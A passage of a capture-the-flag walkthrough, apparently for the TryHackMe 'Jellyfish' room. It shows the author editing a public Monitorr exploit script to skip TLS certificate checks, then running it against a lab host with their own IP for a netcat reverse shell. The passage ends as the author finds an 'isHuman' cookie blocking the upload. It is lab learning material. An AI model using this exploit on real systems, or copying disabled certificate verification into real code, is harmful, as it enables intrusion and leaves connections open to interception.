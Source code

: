 First problem is this python script doesn't handle SSL connections. We can change it so there is no verification of the certificate. Add this line underneath the imports:

```text
import requests
import os
import sys

requests.packages.urllib3.disable_warnings()
```

Now change the post and get requests so they have verify=False in them:

```text
<SNIP>
    requests.post(url, headers=headers, data=data, verify=False)
<SNIP>
    requests.get(url, headers=headers, verify=False)
<SNIP>
```

Try it again:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# python 4898xx.py https://monitorr.robyns-petshop.thm/ 10.8.165.116 443
A shell script should be uploaded. Now we try to execute it
```

It says it worked, but my waiting netcat listener didn't catch anything. If I look in the folder where the file should have been uploaded I can see it didn't work:

![jellyfish-usrimg](/assets/images/2021-04-26-22-04-19.png)

Before leaving the browser I check for cookies, press Shift+F9 to bring up the Storage Inspector. I see there is a cookie called isHuman: "1" which must be blocking our exploit:

![jellyfish-cookie](/assets/images/2021-04-26-17-19-57.png)
